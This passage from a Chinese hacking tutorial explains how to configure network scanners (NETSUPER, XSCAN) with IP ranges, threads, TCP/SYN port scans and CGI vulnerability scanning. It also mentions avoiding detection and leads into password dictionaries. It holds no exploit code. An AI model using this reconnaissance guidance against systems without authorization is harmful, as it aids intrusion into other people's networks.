



图1-1-8 确定扫描类型

图1-1-9 确定地址

在图1-1-9的框中填上要扫描的IP地址范围。若选择从文件导入，则可以选择自己定义的IP地址列表。那么这样将有更大的灵活度，可以定义不连续的IP列表。方法是在Windows自带的“记事本”程序中编辑要扫描的IP地址，并保存好文件，如图1-1-10所示。


图1-1-10 自编辑IP地址列表

然后在“从文本文档导入主机名”对话框中将此文件导入，如图1-1-11所示。单击“执行”按钮，导入完毕。好了，都设置完了，现在就可以开始扫描了。哦——等等，阿瓜还有话要说。

> 阿瓜小注：在扫描之前可以先设置延时的大小。如果网络速度比较快，可以把值设小点；如果网络速度比较慢，那么应该把值设大点。



1-1-11 导入IP地址

点击开始按钮。过几秒钟就可以看到扫描结果了，如图1-1-12所示。



1-1-12 扫描结果

> 榕哥忠告：扫描一般分为两种方式：一种是专一型的，就是针对一个地址，扫描多个端口；另一种就是分散型的，即对一片地址扫描相同的某一个或某几个端口。如果选择大量端口的同时选择大量的地址，那么会使电脑过于繁忙，不能得到好的结果。阿瓜，你听到了没，又睡觉！

### 1.1.2 NETSUPER

“不知道这些扫描器为什么都喜欢用‘SUPER’这个词，好像用了这个词自己的软件就具有超级力量了，嘿嘿，那我用这些‘SUPER’工具，是不是就有超人的力量了呢？”

阿瓜想象着自己像超人一样，一伸手自己就飞出了地球，飞着飞着，忽然迎面来了一块大陨石，一下没反应过来，砰的一声撞上了，阿瓜发现自己又回到了电脑面前，屏幕上是NETSUPER的使用界面，如图1-1-13所示。

这个扫描器主要是针对局域网的共享资源和文件信息进行扫描。界面上方的工具条上列出的项目就是它所具有的全部功能。

> 阿瓜小注：要使用这个软件，首先你的电脑要处在局域网连接中。若是拨号上网，那么这个软件的用处就不大了。

在“操作”菜单中列出的操作顺序是正常的操作顺序，在使用时按这个顺序来操作就可以得到想要的结果了，如图1-1-14所示。



1-1-13 NETSUPER的使用界面


1-1-14 操作顺序

除了搜索共享资源外，大家还可以给局域网内的计算机发送消息。不错吧！另外，这个扫描器还提供了其他的功能。那就是可以扫描局域网内存在的SQL Server服务器和打印服务器。可以看到这个软件还有发展的余地。但是，就它目前的功能来说，还是很有特点的。

> 榕哥：阿瓜这小子，什么软件都敢用，还真让他弄到不少好玩的东西。

与上面介绍的两种扫描器一样的单一型扫描器还有很多，都各有特点，但是也有优劣之分，大家可以选择不同的品种来比较一下。其实，就功能的强大来说，还是综合型的扫描器最厉害。阿瓜觉得，如果单一型扫描器是狙击枪的话，那综合型扫描器就是重机枪。

## 1.2 综合型扫描器

综合型扫描器，实际上就是把各种扫描功能都集中在一个软件里。这种类型的扫描器其实也很多。阿瓜比较喜欢的有两款，一是XSCAN；另一个就是众所周知的流光（FLUXAY）。

### 1.2.1 XSCAN

XSCAN的使用界面如下，如图1-2-1所示。


1-2-1 XSCAN的初始界面

这个扫描器的功能设置主要在扫描模块中进行，如图1-2-2所示。



1-2-2 设置选项

点击“扫描模块”菜单项，或者在工具栏中选择第一个按钮，出现“扫描模块”设置对话框，如图1-2-3、1-2-4所示。


1-2-3 工具栏



1-2-4 扫描模块设置

可以看到XSCAN一共提供了15种扫描功能。当前面的对勾被选中时，说明此项功能被启用。

我们可以根据需要选择项目。点击“确定”，模块选择完毕。下面需要进行其他参数的设置。

在菜单栏选择“扫描参数”或者在工具栏上选择第二个按钮，出现“扫描参数”设置对话框，如图1-2-5所示。



1-2-5 扫描参数设置

这个对话框里包括五个选项卡，分别是：“基本设置”、“端口相关设置”、“CGI相关设置”、“字典文件设置”、“代理服务器”。

阿瓜又嘀咕了：“好东西用起来就是麻烦！”

#### 一、先看“基本设置”的内容

“基本设置”包括三个部分：

- 1、检测范围；
- 2、线程数量；
- 3、其他。

“检测范围”就是指要扫描的IP地址范围，如图1-2-6所示。



1-2-6 设定扫描范围

这个软件提供了两种设定方式，可以在“指定IP范围”文本框中直接输入IP范围，也可以选中“从文件获取主机列表”，从文本文档中导入地址列表。

“线程数量”的设置会影响扫描的速度和准确度。通常情况下，如果网络速度较快，则可以将数值设大一点；如速度较慢，则可以设得小一点。如果不清楚设多少合适，默认即可。阿瓜的名言是：“默认的即合理的”。



如图1-2-7所示，“其他设置”中各个条目的含义是：若要在扫描时看到扫描的进度，则选中“显示详细进度”，不过这要耗费一点资源，影响一点速度；“跳过PING不通的主机”是为了避过不在线的主机（在1.1.1节中我们曾经说过这个问题）；“跳过没有检测到开放端口的主机”也是为了避免浪费时间；“无条件扫描”就比较霸道了，管你开不开机，有没有开放端口，一律猛扫。后面这三个选项是三选一的，只能选一种，通常选第一个就行了。

#### 二、“端口相关设置”的内容

这部分的设置实际是为“扫描模块”之“开放端口”一项服务的。它包括三项内容：

- 1. 待检测端口；
- 2. 检测方式；
- 3. 预设知名服务端口，如图1-2-8所示。



“待检测端口”就是需要扫描的端口号，可以在待检测端口中输入要扫描的端口号，若要输入一段连续的端口范围，可以用“***-***”的格式。

“检测方式”有两种，一种是“TCP”方式，另一种是“SYN”方式。它们的区别是TCP方式准确度较高，SYN方式速度较快，如图1-2-9所示。



> 榕哥警语：TCP方式需要扫描机和被扫描机建立连接，所以被对方发现的危险性较大。不过只要是扫描，通常都可以被日志文件记录下来的。

“预设知名端口”是端口扫描默认要扫描的端口，都是一些大家较熟悉的服务端口。

> 阿瓜小注：这些端口大家都认识吧！我可是花了将近一年的时间才把它们弄清啊。80端口对应的HTTP协议是用于提供网页浏览服务的，21端口对应的FTP协议是用于传输文件服务的，25端口对应的SMTP协议是用于发送邮件服务的，110端口对应的POP3协议是用于接收邮件服务的，111端口对应的是UNIX上的RPC协议，135端口对应的是Windows上的RPC协议，RPC协议是用于提供远程进程调用服务的，79端口对应的FINGER协议是用于提供主机用户信息服务的，1433对应的MSSQL Server协议是用于提供数据库服务器开放服务的。

#### 三、“CGI相关设置”是为“扫描模块”之“CGI扫描”服务的

> 阿瓜小注：CGI是通用网关接口的意思。实际上这里就是指存放网站程序文件的地方。这里面有很多的漏洞可以利用。

这一部分包括0—5个单选按钮和三个复选按钮，如图1-2-10所示。

0—5的条目是指扫描提交的CGI信息的编码方式。不同的服务器有不同服务方式，所以有相适合的编码方式。可以根据不同的应用情况来选择。

阿瓜的做法是：我不知道怎么用，我就一个一个试。

6—8的条目是针对不同的服务器所用的目录表示格式的不同而设定的。如果不知道怎么选，干脆就都选上。

关于CGI列表的设置要在“工具”菜单中进行，我们稍后再说。



图1-2-10 CGI相关设置

#### 四、“字典文件设置”是为口令探测服务的

